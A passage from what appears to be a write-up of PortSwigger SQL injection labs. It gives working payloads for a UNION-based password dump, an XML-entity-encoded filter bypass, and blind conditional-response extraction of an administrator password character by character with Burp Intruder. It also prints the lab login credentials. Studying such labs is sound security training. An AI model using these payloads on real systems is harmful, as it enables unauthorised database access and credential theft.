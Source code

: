 To retrieve all the users: `category' UNION SELECT USERNAME_WQDOCJ,PASSWORD_NLFHLD FROM USERS_WBZCLJ--`
- To solve the lab, log in as `administrator:v4v788550kfkkew3h2oi`


### [Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Vulnerable URL: https://domain/product/stock
- This URL uses an XML-encoded payload to send data to the database
- There is a storeId element that evaluates expressions (such as sums)

To get the user's information, we need to encode the payload in that element to bypass the WAF protection. The encoded payload to this lab is: `<@dec_entities>1 UNION SELECT username || ':' || password FROM users<@/dec_entities>`
- If the query is written with 2 columns the response will be 0
- This encoding was made with Burp Suite Hackverton extension: Extensions -> Hackvertor -> Encode -> dec_entities

To solve the lab, log in as `administrator:jej4bpjjei2mawfb0xxr`


## Blind SQL injection labs

### [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Vulnerable URL: https://domain/filter?category=category
- This URL uses a TrackingId cookie to show a `Welcome back!` message. This cookie is vulnerable to SQL injection

Test payload: `cookie' AND 1=1--` and `cookie' AND 1=2--`
- When `AND 1=1--` is injected the welcome back message shows, but when `AND 1=2--` is injected, the message disappears. The message can be controlled by the injected payload, so the site is vulnerable

To log in as administrator, we need to enumerate the password. To do this, first, we discover the length of the password: `cookie' AND (SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > [size]) = 'administrator'--`
- We need to try this payload by increasing the value of `[size]` until the welcome back message disappears from the screen, when that happens the query will be false and we will have the length of the password
- This step can be done with Burp Intruder, using the sniper attack type using the `[size]` as a numbers type payload or with a written script
- The password is `20` characters long

To enumerate the password, we need to check each character from it. `cookie' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), [position], 1) = '[character]'--`
- This function gets the character in the `[position]`th position of the string and compares with `[character]`. If the comparison is true, the welcome back message will appear in the screen. We need to compare each character from the password (changing the `[position]` value from `1` to `[size]`), with 
a character (brute force the character `[a-z||0-9]`)
- This step can be done with Burp Intruder, using the cluster bomb attack type using the `[position]` as the first payload using the numbers type (from 1 to the size of the password, step 1) and the `[character]` as the second payload using the brute forcer type (selecting the characters to be tested and 1 as min and max length). This step can also be done with a script
- The password is `xcanmptntagtdo2csy32`
- To solve the lab, log in as `administrator:xcanmptntagtdo2csy32`
